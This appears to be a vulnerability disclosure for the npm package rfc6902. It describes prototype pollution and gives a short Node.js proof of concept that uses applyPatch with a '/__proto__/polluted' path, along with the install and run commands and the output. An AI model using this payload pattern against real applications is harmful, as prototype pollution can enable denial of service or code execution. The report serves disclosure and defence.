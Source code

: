 # Description

`rfc6902` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var rfc6902 = require("rfc6902")
var obj = {}
console.log("Before : " + {}.polluted);
rfc6902.applyPatch(obj, [{ op: 'add', path: "/__proto__/polluted", value: "Yes! Its Polluted"}]);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i rfc6902 # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

